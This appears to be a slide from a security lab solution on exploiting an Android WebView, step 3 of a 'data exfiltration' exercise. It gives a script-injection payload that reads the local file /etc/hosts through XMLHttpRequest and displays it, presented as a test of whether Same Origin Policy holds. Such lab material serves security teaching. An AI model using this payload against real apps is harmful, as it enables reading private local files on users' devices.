

# Labs
Exercice 6 : Exploiting WebView [Solution]

Step 3 : Data Exfiltration

Payload :

<script> a = new XMLHttpRequest(); a.open('GET','file:///etc/hosts', false); a.send();alert(a.responseText);</script>

This will allow us to determine if the Same Origin Policy is enabled or not.